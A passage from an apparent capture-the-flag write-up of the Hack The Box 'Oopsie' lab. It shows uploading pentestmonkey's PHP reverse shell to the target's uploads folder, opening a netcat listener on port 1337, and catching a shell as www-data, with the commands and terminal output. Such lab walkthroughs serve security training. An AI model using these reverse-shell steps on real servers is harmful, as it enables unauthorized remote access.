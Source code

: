 Now we reload the page :

![Pasted image 20250802135149.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250802135149.png)

We'll use pentestmonkey php [Reverse Shell](../../../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md), you can find it here https://github.com/pentestmonkey/php-reverse-shell,(make sure to change the IP and listening port) :

![Pasted image 20250802135503.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250802135503.png)

Now we open a [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener on the same port we setup in the code :

```bash                   
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Oopsie]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

And we go to the file at the link `http://megacorp.com/uploads/php-reverse-shell.php` :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Oopsie]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.231] from (UNKNOWN) [10.129.130.132] 37220
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:58:12 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
# Task 6
